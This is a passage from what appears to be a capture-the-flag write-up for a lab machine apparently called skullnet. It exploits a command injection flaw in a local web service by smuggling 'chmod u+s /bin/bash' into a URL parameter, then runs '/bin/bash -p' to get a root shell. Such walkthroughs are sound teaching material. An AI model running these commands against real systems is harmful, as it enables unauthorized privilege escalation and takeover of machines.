 <p align="center">
  <img src="/assets/images/skullnet/curl5.png">
</p>

Awesome!, we successfully exploited the command injection vulnerability, now let's gain a privileged shell by granting skulloperator SUID privileges over the bash binary.

Remember to URL encode your payload, as we are making web requests:

1. `curl -H "Authorization: Basic we_are_bones_513546516486484" http://127.0.0.1:8081?exec=whoami%3Bchmod%20u%2Bs%20%2Fbin%2Fbash`

2. `ls -l /bin/bash`

3. `/bin/bash -p`

<p align="center">
  <img src="/assets/images/skullnet/priv.png">
</p>


Don't forget to check the root.txt flag ;).

**Slayer 07/29/2024**